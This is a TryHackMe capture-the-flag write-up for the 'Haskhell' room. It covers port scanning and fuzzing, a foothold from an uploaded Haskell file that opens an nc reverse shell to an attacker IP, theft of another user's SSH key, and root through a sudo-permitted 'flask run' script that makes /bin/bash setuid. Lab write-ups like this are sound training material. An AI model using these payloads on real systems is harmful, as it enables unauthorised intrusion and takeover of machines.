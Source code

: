 ```yaml
---

title: "TryHackMe Writeup - Haskshell"

categories: [Tryhackme,Linux,easy]

tags: [file_upload,haskell,flask(sudo_misconfig),easy]

image: https://cdn-icons-png.flaticon.com/512/5968/5968259.png
---
```



THM - [https://tryhackme.com/room/haskhell](https://tryhackme.com/room/haskhell)



## Enumeration :

### Port scanning

As always, we start by scanning the target machine’s open ports:

```bash
┌──(root㉿kali)-[~/Desktop/thm/hakshell]
└─# rustscan -a $ip --range 1-65535 -- -A -sCV -oA $ip  -O

```

Results:

```bash

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
|   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
5001/tcp open  http    syn-ack ttl 60 Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Sony X75CH-series Android TV (Android 5.0) (92%), Linux 2.6.32 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%), QNAP QTS 4.0 - 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).

```

### Web Enumeration

From the result from nmap scan , there is web_server running on port 5001.

![Untitled](/assets/img/Untitled.png){: w="700" h="400" }

Initiated  Fuzzing on the web_server, found a  hidden directory called `/submit` .

```bash
┌──(root㉿kali)-[~/Desktop/thm/hakshell/web_fuzz]
└─# ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u <http://$ip:5001/FUZZ> -ic -v -e .php,.html,.txt -o fuzz -of all
```

Results :

```bash
[Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 1090ms]
| URL | <http://10.10.185.37:5001/submit>
    * FUZZ: submit
```

Up on visiting the endpoint `/submit` , there is a file upload function for submtting the assignments

# Foothold

From the information from the  home page of the web_page , they are learning haskell programming languae and need to submit their assignment on haskell and upload the haskell program.

Upload a malicious below haskell code to file `rev.hs` , to receive revese shell from the machine

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.17.4.74 443 >/tmp/f"
```

Start a listener on the attacker machine

```bash
──(root㉿kali)-[~/Desktop/thm/hakshell]
└─# pwncat-cs -lp 44
```

Now upload the reverse shell haskell file and click on upload

![Untitled](/assets/img/Untitled_1.png)

Upon clicking upload , we receive a reverse shell as a `flask` service account  user

![Untitled](/assets/img/Untitled_2.png)

## Lateral Movement

Under the home directory of the user name `prof` contains ssh private key.

![Untitled](/assets/img/Untitled_3.png)

&nbsp;


Copy the private key to the attacker machine and save it to file name  `id_rsa.prof` and change the permission of the file.

```bash
┌──(root㉿kali)-[~/Desktop/thm/hakshell/ssh]
└─#chmod 600 id_rsa.prof
```

&nbsp;

Run the following ssh command  and we login into ssh as user `prof`.

```bash
┌──(root㉿kali)-[~/Desktop/thm/hakshell/ssh]
└─# ssh prof@$ip -i id_rsa.prof
```

![Untitled](/assets/img/Untitled_4.png)

## Privilege Escalation

By running the `sudo -ll`  , we can run the `/usr/bin/flask run`  as root user ,due to misconfiguraton of sudo.

![Untitled](/assets/img/Untitled_5.png)

&nbsp;


Copy the below python script to file name called `server.py`

```python
from flask import Flask
import subprocess

app = Flask(__name__)

@app.route("/")

def hello():
    cmd = ["chmod","+s","/bin/bash"]
    p = subprocess.Popen(cmd, stdout = subprocess.PIPE,
                            stderr=subprocess.PIPE,
                            stdin=subprocess.PIPE)
    out,err = p.communicate()
    return out
if __name__ == "__main__" :
    app.run()
```

&nbsp;


Export the environment varible as below

```bash
prof@haskhell:~$ export FLASK_APP=server.py
```

&nbsp;


Now run the sudo as root user to run the command `/usr/bin/flask run`


```bash
prof@haskhell:~$ sudo -u root /usr/bin/flask run &
```

&nbsp;


Do curl request on the localhost ,in which flask server is listening on port 5000

```bash
prof@haskhell:~$ curl http://127.0.0.1:5000/
```

![Untitled](/assets/img/Untitled_6.png)

&nbsp;


When we list out the the binary , we have a setuid bit is set on the `/bin/bash` binary.
Run the below command to get user as root

```bash
prof@haskhell:~$ /bin/bash -p
```

![Untitled](/assets/img/Untitled_7.png)

&nbsp;


The simplest way to achieve root shell .

Copy the below python script to file name called `server.py`

```python
import os

os.system("/bin/bash")
```

Execute the following commands

```bash
prof@haskhell:~$ export FLASK_APP=server.py
prof@haskhell:~$
prof@haskhell:~$ sudo -u root /usr/bin/flask run
```

![Untitled](/assets/img/Untitled_8.png)

